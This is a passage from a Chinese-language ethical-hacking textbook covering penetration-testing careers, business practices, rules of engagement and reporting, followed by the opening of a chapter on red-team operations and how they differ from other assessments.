

图 6-2 CTFtime.org 为虚拟 CTF 竞赛提供了一条途径，让任何人、任何地方都能参与 CTF 活动。

还有一些技能提升游戏旨在教授和培养黑客技能，从初级水平开始。如图 6-3 所示的 OverTheWire.org 提供了各种级别的战争游戏。战争游戏 Bandit 是初学者尤其宝贵的资源。

## 战争游戏

- Bandit
- Natas
- Leviathan
- Narnia
- Krypton
- Behemoth
- Utumno
- Maze
- Vortex
- Semtex
- Manpage
- Drifter

OverTheWire 社区提供的战争游戏可以帮助你以充满乐趣的游戏形式学习和实践安全概念。要了解某个特定战争游戏的更多信息，只需访问左侧菜单中链接的页面即可。
如果您有问题、疑问或建议，可以加入我们的 IRC 通道。

### 建议的游戏顺序

1. Bandit
2. Leviathan 或 Natas 或 Krypton
3. Narnia
4. Behemoth
5. Utumno
6. Maze

图 6-3 OverTheWire.org 提供的战争游戏

互联网充满了供道德黑客练习和提升技能的资源。您应该考虑参与 SANS 学院的 NetWars 或使用 OSCP 实验室，即使您不参加认证考试或已经拥有认证。此外，亚利桑那网络战靶场（Arizona Cyber Warfare Range，一家非营利组织）是一个优秀的资源，还有许多大学支持和私营的网络靶场。一如既往，在参与他们的游戏之前，请留意您的活动并研究相关网站。好好利用现在存在的资源吧——以前几代的渗透测试人员并没有这些类型的资源可用。

## 学位课程

尽管获得精湛渗透测试技能的方式有很多，但通过大学或高校接受正规教育始终是最全面的方式。在努力弥补知识缺口时，网络安全、计算机科学或工程学位的全面性不可低估。国家安全局 (NSA) 和国土安全部 (DHS) 共同赞助两个计划：网络防御学术卓越中心和网络行动学术卓越中心。这些计划的目标是扩大能够支持网络安全国家的熟练工人队伍。卡内基梅隆大学和海军研究生院等知名且受尊重的大学均在 NSA 的学术卓越中心之列。

传统学位课程之外还存在替代方案。例如，哈佛大学创建了哈佛延伸学校，允许学生在不首先被哈佛大学录取的情况下修读课程。如果学生在哈佛延伸学校的三门课程中表现出色，他们将有资格进入学位课程。CS50 课程是哈佛大学的计算机科学入门课程，是一个特别好的起点。这为任何人修读哈佛大学的课程创造了一条途径，表现优异者可以攻读该国最受尊敬的大学之一的学位。其他备受尊重的大学，如麻省理工学院，免费在线提供其课程，斯坦福大学则提供多达 100 门免费在线课程，以使其课程面向大众。

另一方面，大量创新的高等教育机构正在提供经认证的课程，以基于工作经验、能力和行业认证来促进网络安全学位。这种较新的传统教育方法将传统学位课程与允许成人因其技术行业认证而获得大学学分或通过展示其工作知识来免修课程的课程相结合。这种方法非常适合道德黑客技能的“动手实践”性质。西部州长大学等较新的基于能力的学校正在尝试转变教育范式，并通过在线学位课程的新颖且颇具争议的方法重新定义高等教育。大多数技术课程都会导致行业认证，为在职专业人士的职业生涯提供即时价值。

## 知识转移

关于渗透测试的最佳信息来源之一来自社区中的其他安全专业人士。网上可以找到大量涵盖渗透测试大多数方面的视频。例如，网络安全会议上的演讲视频会定期在线发布。即使是那些能够亲自参加会议的人，观看 Black Hat 和 DEF CON 安全会议上的演讲视频也很有用，因为没有人能看完所有演讲。Irongeek.com 的资源库（包含 DerbyCon 和 ShmooCon 内容）也可能有用。对于国际读者，ZeroNights 和 SyScan 会议内容可能特别感兴趣。

与许多其他行业不同，网络安全社区将技能获取更多视作一种爱好而非负担。专注于培养新渗透测试人员的社区团体数量表明，我们的社区非常致力于分享知识，并为新来者构建一种包容性文化。SecurityTube.net 等网站多年来一直用于分享知识。

活跃的渗透测试社区是必需的，因为新的攻击技术不断被引入。恶意行为者和安全研究人员定期揭示新的攻击向量。安全社区不断致力于开发安全控制措施，以修复渗透测试人员利用的当前问题。这意味着最优秀的渗透测试人员会跟进攻击性和防御性安全技术。他们理解，虽然一些问题会持续存在，但新的攻击向量、设备和技术不断被揭示。信息系统安全协会 (ISSA) 和 InfraGard 等专业组织也有助于道德黑客的持续发展，Infosec-conferences.com 提供了有关可参加会议的有用信息。

## 渗透测试技艺

迄今为止，我们讨论了作为渗透测试人员打好基础。现在，让我们换个角度，假设您希望专业地使用您的道德黑客技能，无论是为了盈利还是为了公益。假设您作为专业渗透测试人员积累了一些经验，现在想要承担更多责任。您甚至可能想创办自己的小型运营，目标是确保您的团队一次只能处理一个大型项目。您不再是孤狼，因此现在必须学会协作。在本节中，我们不会介绍创办小企业的基础知识，但如果您决定创办一家渗透测试公司，我们将介绍需要考虑的具体事项。

### 个人责任

选择道德黑客作为职业是一项有趣而勇敢的举动。因此，最好仔细考虑您在所选道路上将面临的不可避免的风险。为您的小型渗透测试业务进行风险评估，将与您过去可能接触过的风险评估类似。您需要考虑对业务的威胁，了解漏洞，并努力将风险降低到您可接受的水平。

### 业务结构

创办任何企业时，都应该构建业务结构，以降低作为所有者的个人责任。考虑创建有限责任公司 (LLC) 或注册成立 S 公司。当这些业务结构之一正确实施时，它可以保护作为所有者的您的个人资产免受源于业务的诉讼。由于渗透测试是一个高薪领域，最好预留一些资金与律师和会计师合作，以确保您了解运营 S 公司或 LLC 的细微差别和局限性。

### 保险

出于许多原因，您应该购买保险。首先，也是最重要的是，保护您的企业很重要，因为您将投入时间和资金。此外，您通常会发现，您的业务合作伙伴和客户为供应商与其开展业务所要求的保险类型和承保范围设定了最低门槛。您会想与保险经纪人交谈，由其指导您完成流程，所提供的信息仅为一般性建议，旨在帮助您与保险经纪人进行沟通。您可能希望考虑购买多种类型的保险。建议购买综合责任险以保护您的整体业务。技术疏忽与责任险 (E&O) 在您“出错或遗漏”时提供关键承保。如果可能，您还应考虑网络保险。安全公司是攻击者的宝贵目标，网络保险可帮助保护您的组织，如果它成为攻击的受害者。

### 降低运营风险

在任何环境中，对所有接触敏感信息的人进行犯罪背景调查始终是个好主意。与其他领域相比，道德黑客领域更有可能出现“害群之马”。确保您的团队


成员都是道德黑客，具有判断力和成熟度，不会让您的客户面临风险。请确保您进行的犯罪背景检查包含本地和国家数据库搜索。仔细核查推荐人、验证学位课程，并验证过去的军事经历。坐下来花时间与潜在团队成员交谈。留意陈述中的冲突和不准确之处。我震惊地发现有多少简历是伪造的，以及我多么频繁地遇到“盗取军功”，即谎称拥有过去军事经历的行为。

为在您的技术环境中安全运营制定策略。您应该建立技术、行政和物理安全政策以及技术安全控制措施，以保护客户的数据。即使是小团队也需要经过深思熟虑的流程，以保持条理、降低风险并提高效能。

## 作为可信赖的顾问

您的客户依赖您作为他们的可信赖顾问。您有责任向他们提出良好的建议。客户常常会有预算限制，并要求进行不符合其合规要求或规模太小、无法提供真正价值的评估。您必须警惕，不要让客户产生虚假的安全感。花时间确保您充分了解组织内部的情况。关于渗透测试相关决策的最终责任在于组织的领导者。然而，他们会依赖您的意见和建议来指引正确方向。

渗透测试是为了更大的善。测试活动通常详细、艰巨，需要付出大量努力和决心。毕竟，您不是为了健康而这样做——您是为了保护受托托管的资产。为了提供最大价值，您需要了解并界定工作的适当性质、持续时间、频率和范围。最重要的是，您必须将所有努力与业务影响联系起来，并关注评估结果对组织意味着什么。

第 1 章介绍了渗透测试流程的概述。本章对这些主题进行了展开，并将它们协调一致，以便为组织提供尽可能多的价值。这意味着选择正确的方法论和工具，并不断改进您的选择，直到找到能让您成为最佳渗透测试人员的解决方案。

至少，组织应该每年进行一次企业渗透测试。每年进行一次渗透测试对大多数组织来说往往不够。但是，考虑到大多数系统经常更改和更新，新的攻击不断出现，通常有必要每年进行不止一次渗透测试。许多合规要求，例如 PCI 和 HIPAA，仅要求每年进行一次渗透测试，或在环境发生重大更改后进行。这种模糊要求的问题是，往往很难定义什么样的变更达到“重大更改”的阈值，并且它们没有考虑到每个环境的独特性。安全计划尚处于起步阶段的组织可能无法从频繁的渗透测试中受益。它可能只需要进行一次初始测试来确定可能的攻击向量，然后专注于构建强大的安全计划，再进行下一次测试。年度渗透测试通常由外部实体执行，从而允许测试中具有更高的客观性。

对于大多数已建立安全计划且环境动态变化的环境，建议进行频繁的渗透测试。进行季度或每月测试可以更快地识别和修复可利用的网络安全问题。它还允许更专注于环境或安全计划的特定区域，并且测试可以根据组织的目标进行定制。例如，第一季度可专注于内部渗透测试，第二季度专注于 Web 应用程序测试，第三季度专注于测试组织的安全响应和事件响应能力，第四季度可以专注于社会工程。拥有分散地点的大型实体可以每个季度关注不同的地点（或根据需要更频繁地）。当季度渗透测试由内部人员执行时，通常有必要由第三方执行年度渗透测试，以确保保持客观性。

许多通过收购成长的实体会将渗透测试纳入其并购（M&A）流程。在收购前进行的渗透测试可以帮助确定实体的价格。许多收购前渗透测试会发现解决起来可能需要数百万美元的问题。购买后进行的测试活动可以帮助组织了解其所承担的风险数量，并制定应对计划。在整合不同网络“并购后”期间使用渗透测试来解决必须管理的风险，可以为组织提供有价值的视角。

拥有成熟安全计划的实体了解渗透测试提供的风险信息很有价值，并且需要持续提供。一些拥有成熟安全计划的组织将渗透测试和安全评估活动纳入其变更管理计划，要求在新部署获得批准部署到生产环境之前，必须解决因被攻破或未经授权的访问而产生的潜在风险。开发软件的成熟组织通常已实施安全软件开发生命周期（SSDLC）流程，这些流程要求进行渗透测试，以确保对组织环境和软件的风险受到限制。长期红队或紫队演习可以持续六个月到一年，并允许组织更详细地测试其事件响应能力。这些长期评估通常涉及定期会议和每月或每季度的总结会议，以向组织提供投入。

在对产品进行渗透测试时，最好在计划中留出时间，在产品发布前修复发现的任何问题。高危或严重漏洞通常会延迟产品的发布，当分配了测试时间但未分配修复测试发现的问题的时间时。产品渗透测试还应在发布重大更新时进行。

## 管理渗透测试

管理渗透测试就像管理其他技术项目一样。您可以通过适当的计划和良好的沟通来降低项目成功的风险。渗透测试的一些基础知识在第 1 章的“模拟攻击”部分中有所介绍。本章提供的内容假设您现在了解基础知识，并希望学习改进流程和优化工作的方法。

### 组织渗透测试

白盒或灰盒评估始于对环境的某些了解或完全了解。您需要进行一次“数据呼叫”以收集有关技术环境的信息。最好提前准备一组问题，或使用互联网上可用的众多检查清单之一。收集有关人员、IP 地址范围、超出范围的系统和网络、特定系统和目标的技术详细信息、客户已有的活动安全控制措施等方面的信息。如果网络钓鱼攻击在范围内，请尝试进行一些早期侦察，并提前提交电子邮件目标列表以供批准。问题集将根据您评估的内容而有所不同，但最好养成早期和频繁沟通的习惯。

第 1 章简要提到了各方了解评估范围的重要性。详细的工作说明书（SOW）有助于确保没有误解。在您的文件中始终要有对评估性质和范围的清晰描述；无论您称其为合同、提案、工作说明书还是范围文件，最好都在客户签署的文件中以书面形式界定范围。如果您的评估包含物理安全组件，请务必获得签署的“免关卡牌”或授权信。如果客户的安保人员或员工遇到或拘留渗透测试团队中的任何人，该信可用于化解潜在的敌对情况。信中应说明正在进行渗透测试，并且信中按姓名列出的评估团队成员有权执行测试活动。授权信应安保人员可以拨打的联系电话，通常是客户公司的物理安全或网络安全负责人。

您很可能会有一个排期电话和一份详细的启动会议。使用启动会议来确认评估的范围和重点，并讨论脆弱系统。您还应该逐步讨论方法论。最好讨论您对任何网络钓鱼活动的想法，并争取预先批准。审查日程和后勤，并务必定义客户里程碑，以便客户知道您需要他们提供什么以及何时需要。您可能需要涵盖的后勤问题包括获得一个小会议室或办公室作为工作场所、讨论对网络端口和内部 VLAN 的访问权限，以及获取物理通行证和停车证。您可能希望申请在晚上门能锁上的房间工作，以便在渗透测试的内部阶段将设备留在客户现场。

此外，对于大多数短期渗透测试，您希望避免“猫鼠游戏”场景，即客户正在积极阻止并试图防御您的攻击。


某些评估旨在让防御性安全团队主动保护网络，从而“练习”这些技能。无论评估类型如何，都有必要就“交战规则”进行详细讨论。在讨论交战规则时，您将需要讨论客户的“主动防御”（已到位的安全控制，可减缓或阻止攻击）。请务必始终在报告中给予客户对其已到位的安全控制的认可。

我见过的用于应对“主动防御”的最佳方法论之一很简单。如果在渗透测试期间某个控制阻止您前进，只需请求客户允许您绕过它即可。然后您可以继续测试，直到确定已经为客户提供了价值，测试每个安全层。之后——这一点至关重要——回过头来努力绕过之前让您遇到麻烦的那个原始控制。许多安全控制可以通过某种方式绕过，只要时间允许。

交战规则的另一个方面是确定IT帮助台在用户来电并报告与渗透测试相关的事情时应采取的最佳行动方案。通常，最好只向尽可能少的人透露正在进行渗透测试的事实，并且通常在测试开始时IT帮助台不知道正在进行评估。毕竟，IT帮助台在渗透测试期间是常见目标。然而，这始终是一种权衡，IT帮助台在评估期间经常会被“告知情况”，以便他们可以恰当地回应用户的询问和报告。理想情况下，当报告事件时，IT帮助台将开始执行分诊程序，而渗透测试团队可以开始评估客户的响应。

看似简单，但请务必与客户及其团队交换联系信息。您可能需要在非工作时间致电客户，因此请务必获取手机号码，并知道非工作时间最佳联系人是谁。您可能出于各种原因决定在非工作时间致电客户。偶尔，渗透测试人员会在客户环境中遇到妥协指标（IOC），表明客户正在发生活跃的安全漏洞。此外，有时会在客户的边缘上发现严重漏洞，最好不要等到第二天早上才向客户披露此事实。

在渗透测试期间，您需要通过电子邮件发送不同类型的敏感信息。最好确保您有一个包含加密和多因素身份验证的安全电子邮件系统。确保它为客户提供了一种安全的方式来发送和接收信息。这样，当他们向您发送有关其人员或环境的信息，或者当您向他们发送渗透测试报告时，可以使用既定且安全的通信渠道。

## 执行渗透测试

渗透测试工具和技术太多，无法一一介绍。我们将在接下来的几章中介绍关于黑客方法论的更具体信息。由于本章讨论的是渗透测试人员的技艺，让我们讨论一些可以帮助您在执行渗透测试时高效工作并以更专业的方式展示自己的想法。

与他人协作并利用他们的技能和经验总是有价值的。各种渗透测试协作工具使团队方法变得容易。在与团队一起执行渗透测试时，考虑使用像Armitage与Cobalt Strike或Faraday这样的协作工具。这些工具允许团队方法，以便团队成员可以保持同步，并且它们添加可视化功能以促进团队合作。

问责制很重要。确保您的团队成员为他们的行为负责，方法是在他们的工具和设备上启用日志记录。偶尔，客户环境可能会在您的渗透测试期间遇到技术问题，客户会想知道是否是由您的测试活动引起的。如果在您的软件和测试基础设施设备上正确启用了日志记录，您将能够准确确认谁在何时从事了哪些测试活动。

撰写报告是渗透测试中最艰苦的部分之一。报告通常长达60页或更多。一份出色的报告将包含执行摘要、各种图表、发现摘要以及关于每个发现的深入信息部分。每个发现都应该有证据和修复指导。另外，给予应有的认可总是件好事。在报告中添加一部分，描述客户当前的安全控制，以便客户的努力得到认可。

现在让我们谈谈报告生成和支持流程及技术。在渗透测试前的每一天以及整个评估期间，您都会了解客户的信息。请务必将您了解的事项记录为“发现”和“良好发现”。如果攻击成功，您可能会有一个报告的“发现”。如果攻击不成功，那么停下来问自己，“是什么阻止了攻击奏效？是什么让它变得困难？有没有什么我可以给客户认可的？”然后将这些想法记录为“良好发现”。持续地将信息和发现添加到您的报告中。在信息还新鲜时记下细节。每天结束时记录和回顾您的发现。您可以通过边做边报告来使编写最终报告变得不那么艰苦。

此外，作为技术人员，我们可以充分利用现有的渗透测试报告技术。渗透测试报告工具集成或包含数据库，以便您可以创建发现存储库。您会发现许多客户的发现类似，反复编写相同的发现效率不高。因此，每次您有新发现时，请务必对其进行脱敏并将其放入您的发现数据库中。这样，下次您必须编写新发现时，您可以查看是否可以从之前的发现中使用一些现有的措辞。有几种出色的渗透测试报告工具可供使用，包括经验证的Dradis，如图6-4所示。Dradis允许您创建报告模板，并从您输入到发现数据库VulnDB的发现中提取信息。无论您决定使用哪种工具，请确保它允许您为发现分配风险等级。



图6-4 Dradis与VulnDB集成，允许您对渗透测试发现进行分类，并提供项目管理功能来帮助您跟踪总体进度。

最后，引导客户在渗透测试结束时进行任何“收尾”活动。确保告诉他们需要重启哪些计算机。如果您创建了任何帐户，请务必告诉客户，以便他们可以删除这些帐户。另外，讨论对环境所做的任何更改，以便它们可以被适当地审查或禁用。您还需要建立数据保留期。如果您只在有限的时间内保留有关其环境的数据，客户会好得多。因此，请务必向客户解释您的保留和销毁政策。

## 总结

在本章中，我们讨论了广泛的主题，旨在帮助您继续在成为专家级渗透测试人员的道路上前进。整本书旨在为您提供指导，帮助您完成许多活动，这些活动将帮助您成为高级渗透测试人员。我们讨论了渗透测试人员的信条，并提及《黑客宣言》来向我们的历史致敬。许多不同的道路都可以导向一个人成为渗透测试人员。我们介绍了各种资源，这些资源将帮助您练习技能并保持其新鲜度，包括培训、正规教育和黑客游戏。

在讨论了改进渗透测试技能的方法后，我们讨论了如何改进您的技艺。提供了关于启动小型运营以便您从能力中获利的指导。我们讨论了在优化工作的同时减少法律责任。通过协作和报告工具与他人合作所获得的好处无论如何强调都不为过。我们还讨论了作为渗透测试人员或经营小型渗透测试运营所带来的责任。这些包括筛选您的团队、组织您的工作、对您的行为保持问责制以及日志记录


一切。作为受信任的顾问所承担的责任意味着，你应始终努力提出符合客户最大利益的合乎伦理的建议。

## 进一步阅读

- 美国公民自由联盟 (ACLU) https://www.aclu.org/
- 亚利桑那网络战靶场 http://azcwr.org/
- Armitage www.fastandeasyhacking.com/
- 黑帽 www.blackhat.com/
- Cobalt Strike https://www.cobaltstrike.com/
- CTF 时间 https://ctftime.org/
- CTF365 https://ctf365.com/
- 守恒者大会 (DEF CON) https://www.defcon.org/
- DerbyCon https://www.derbycon.com/
- Dradis https://dradisframework.com/ce/
- E-Council 认证道德黑客 (CEH) https://www.ecouncil.org/programs/certified-ethical-hacker-ceh/
- 电子前沿基金会 (EFF) www.eff.org
- Faraday https://www.faradaysec.com/
- GIAC GPEN www.giac.org/certification/penetration-tester-gpen
- 黑客宣言 – Phrack.org，1986 年 1 月 8 日 http://phrack.org/issues/7/3.html
- Hacking Exposed https://www.mhprofessional.com/9780071780285-usa-hacking-exposed-7-grou
- 哈佛大学延伸教育学院 https://www.extension.harvard.edu/
- 信息系统安全协会 (ISSA) www.issa.org/
- 信息安全会议 https://infosec-conferences.com/
- InfraGard https://www.infragard.org/
- Irongeek www.irongeek.com/
- 麻省理工学院公开课程 https://ocw.mit.edu/index.htm
- 网络运营学术卓越国家中心 https://www.nsa.gov/resources/educators/centers-academic-excellence/cyber-operations/
- NSA – 网络防御学术卓越国家中心 https://www.nsa.gov/resources/educators/centers-academic-excellence/cyber-defense/
- 进攻性安全认证专家 https://www.offensive-security.com/information-security-certifications/oscp-offensive-security-certified-professional/
- 进攻性安全 https://www.offensive-security.com/
- OverTheWire：战争游戏 http://overthewire.org/wargames/
- 渗透测试：黑客攻击实战入门 (Georgia Weidman) No Starch Press, 2014
- SANS NetWars https://www.sans.org/netwars
- SecurityTube.net https://www.securitytube.net/
- ShmooCon http://shmoocon.org/
- 斯坦福大学在线 http://online.stanford.edu/about
- SyScan https://www.syscan360.org/en/
- SANS 研究所 https://www.sans.org/
- Vulnhub https://www.vulnhub.com/
- 西部州长大学 https://www.wgu.edu/
- ZeroNights https://2017.zeronights.org/

## 第 7 章

## 红队行动

红队演习的概念与战争本身一样悠久。红队是一个独立的团队，它采取对立方视角来执行隐蔽的攻击仿真，这些仿真可以触发主动控制和对策。其目标是挑战组织，显著提升其安全计划的有效性。红队演习应用于商业、技术和军事领域，可以应用于任何使用进攻性和防御性控制的场景。

蓝队成员是网络防御者。我们在其他章节中介绍蓝队操作。毫无疑问，蓝队的工作最艰巨。它要保护组织的资产和敏感数据，既要防范红队，也要防范实际攻击者。保护组织的攻击面是一项复杂的任务。蓝队不会被动等待事件发生。他们是猎人，主动搜索威胁并将其从环境中清除。诚然，并非所有蓝队活动都像威胁狩猎那样令人兴奋；有些蓝队活动专注于检测恶意活动、加固以及维护环境的安全态势。

作为道德黑客，我们的目标是帮助组织完善其防御体系。道德黑客必须了解蓝队的视角，即硬币的另一面，以便提供尽可能有价值的信息。本章对道德黑客方法论进行了深入阐述，并描述了企业级红队行动，同时也重点介绍了与蓝队的关键交互点，因为作为道德黑客，为蓝队提供价值是我们的首要任务。

本章将介绍以下主题：

- 红队操作
- 红队目标
- 可能出错的情况
- 沟通
- 了解威胁
- 攻击框架
- 红队测试环境
- 自适应测试
- 经验教训

### 红队操作

红队操作与其他道德黑客活动有几点显著不同。首先，它们大多是隐蔽性质的未公开测试。其次，由于测试未公开，蓝队可以将其视为实际安全事件进行响应。红队操作旨在展示响应程序或安全控制的不足之处。红队演习概念如果全面应用，可以帮助组织在战略、运营和战术层面成熟。¹ 红队演习的妙处在于将战争游戏练习从抽象概念中解放出来，让防御者在战术层面练习应对挑战。

红队演习有多种定义。国防部指令 (DoDD) 8570.1 将红队演习定义为“由跨学科模拟对手进行的独立且以威胁为中心的努力，旨在暴露和利用漏洞以改善信息安全的安全态势。”² 美国军事联合出版物 1-16 将红队定义为“一种决策支持要素，提供独立能力，以充分探索计划、运营和情报分析中的替代方案。”³ 两者都强调，要成功执行红队职能，需要一定程度的独立性和客观性。

红队工作通常始于确定特定目标和交战规则。它们可以专注于访问或外泄实际数据，甚至是一个没有实际价值的令牌。红队工作也可以专注于测试或 QA 环境，或在实时生产环境中进行。无论哪种情况，目标都是了解如何改进组织的检测、响应和恢复活动。通常，当专业人士讨论事件响应时，重点是改进三个指标：

- 平均检测时间
- 平均响应时间
- 平均清除时间

清除 vs. 遏制 vs. 修复
演习结束后多年内，修复可能仍未完成，这取决于故障性质、根因分析结果，以及从经验教训讨论中产生的任何项目举措的解决情况。另一方面，遏制应将攻击影响限制在可接受的观察参数内，而清除应定义环境中所有攻击者能力的完全移除，并（有时是临时的）减轻通过相同攻击向量的进一步攻击。

能够测量和报告上述指标，并专注于提高安全团队的敏捷性，是开展红队演习的主要好处。

### 战略、运营和战术关注点

红队演习应着重于改进组织在战略、运营和战术层面的响应方式。那些只关注技术事件响应人员如何应对的组织，错失了确保所有决策者都有机会参与战争游戏的绝佳机会。组织的高层管理、技术领导、法务、公共关系、风险管理和合规团队都可以从参与红队演习中受益。

### 评估比较

我们先花些时间讨论红队演习与其他基于技术的评估有何不同。

### 漏洞评估

漏洞评估通常使用工具扫描环境中的漏洞。漏洞通常作为漏洞评估过程的一部分进行验证。但是，漏洞评估不会显示如果环境中的漏洞在针对性攻击中被组合利用可能产生的业务影响。它也不会显示环境中缺失安全控制的影响。

漏洞评估很重要，应该定期进行（大多数情况下每月一次），并应辅以渗透测试或红队或紫色团队演习。

### 渗透测试

渗透测试可以展示攻击者如何结合技术环境中缺失的安全控制和现有漏洞并加以利用，从而显示业务影响。目标是获得未授权访问权限，并展示所发现问题的业务影响。某些渗透测试还包含数据外泄组件，以向业务展示从其环境中移除数据有多容易或有多困难。大多数渗透测试不允许蓝队响应攻击，只记录渗透测试团队的行为何时触发警报。渗透测试通常出于合规目的而要求进行，可以为组织提供宝贵信息。它们也非常适合刚开始完善其安全计划、可能尚未准备好开展红队或紫色团队演习的组织。渗透测试通常是时间点评估，不包含持续测试组件。企业级渗透测试通常包括社会工程学和物理安全评估，如本章后面所述。

### 红队演习

红队演习可以结合刚才提到的所有评估；隐蔽的漏洞评估、渗透测试、社会工程学评估和物理安全评估可以专注于特定目标或应用程序。红队演习的范围和侧重点各不相同。最重要的是，红队演习是未公开的。蓝队不知道自己面对的是现实世界攻击还是攻击模拟。蓝队必须检测、响应并从安全事件中恢复，从而改进并


练习其事件响应技能。

测试活动期间，蓝队与红队之间的沟通非常有限。这使得红队演练能够紧密模拟现实世界中的攻击。白队由不同业务单元或技术团队的关键利益相关者、项目经理、业务分析师等组成。白队提供一层抽象，并确保红队与蓝队之间的沟通得到适当限制。

红队评估也有目标和断言。断言通常是“网络是安全的”或“敏感数据不能在未经我们知晓的情况下被窃取。”测试活动随后集中于证明断言是真还是假。红队评估的主要目标之一是试图未被发现，以真正模拟决心坚定的对手。红队应独立于蓝队。红队演练通常针对拥有成熟安全计划的组织进行。许多组织使用接下来描述的紫色团队演练来完善其检测、响应和恢复流程。

## 紫色团队演练

紫色团队演练将在下一章中深入介绍。紫色团队演练可以包含红队演练的所有组成部分，但鼓励而非阻止蓝队与红队之间的沟通和交互。两支团队之间的沟通可以持续进行，并且许多测试活动通常是自动化的。红队仍然独立于蓝队，但他们在评估进行期间会通力合作，完善安全控制措施。

## 红队演练目标

红队演练在了解您现有安全控制措施的“实际情况”方面非常有价值。红队独立于蓝队，可将偏见降至最低，并允许进行更准确的评估。红队演练（如渗透测试）可用于合规目的。例如，红队的目标可以是确定信用卡数据是否可能被窃取。

红队演练的核心在于根据断言确定评估目标。断言实际上是一种假设。组织通常假设其已实施的控制措施是有效且无法绕过的。然而，新漏洞不断产生，人为错误或环境变化也会发生，这些都会影响网络分段、代理和防火墙等安全控制措施的有效性。

红队任务通常以周期方式进行。重复的周期允许蓝队接受红队评估，制定关于如何改进其控制措施和流程的假设，然后在下一周期中测试该假设。此过程可以重复，直到组织对剩余风险水平感到满意为止。

Mitre 的《网络演练手册》包含可应用于红队演练的宝贵信息。⁴ 以下测试目标列表改编自该资源：

- 确定演练开始前向组织人员提供的网络安全教育的有效性。
- 评估组织事件报告和分析政策与程序的有效性。
- 评估蓝队在演练期间检测并妥善应对敌对活动的能力。
- 评估组织确定网络攻击运营影响并为演练实施适当恢复程序的能力。
- 确定场景规划和执行的有效性，并衡量红队、蓝队和白队之间沟通的有效性。
- 了解对 IT 系统丧失信任的影响，并捕捉此类损失的替代方案。
- 暴露并纠正网络安全系统中的弱点。
- 暴露并纠正网络运营政策和程序中的弱点。
- 确定保护信息系统并在敌对环境中运行所需的改进或能力。
- 提高网络安全意识、准备程度和协调性。
- 制定应对部分或全部 IT 系统丢失的应急计划。

## 可能出现的问题

了解红队任务可能在哪些方面“脱轨”非常重要。红队面临一些常见挑战，了解这些挑战非常重要，以便能够提前解决这些问题。Justin Warner 的 "Common Ground" 博客系列包含关于红队评估的丰富信息，是推荐资源。⁵

## 范围有限

要取得成功，红队必须能够像对手一样在环境中机动。然而，大多数组织都有他们认为无价且不愿意在出错时置于风险中的资产。这可能会严重阻碍红队演练工作，并限制此类任务的益处。

## 时间有限

许多组织难以区分渗透测试和红队任务。为了真正模拟现实世界中的对手，红队必须能够花足够的时间进行评估并获得访问权限而不触发警报。攻击者有数月甚至数年时间来准备和执行，而大多数红队则被期望在有限的时间内完成相同目标。对于许多组织来说，持续进行红队演练成本太高，而这正是大多数对手乐见的场景。评估应足够长以对组织有益，但也应有一个明确的结束点，以便团队进行复盘。

## 参与人员有限

为了从任务中获得最大收益，组织希望尽可能多地纳入关键人员。理想情况下，组织中的每个人都能参与任务的一部分，但归根结底，工作仍需完成，除非必要，否则人们不太可能参与。尽可能争取更多人的参与，尤其是 C 级高管，但要意识到人们都很忙。

## 克服限制

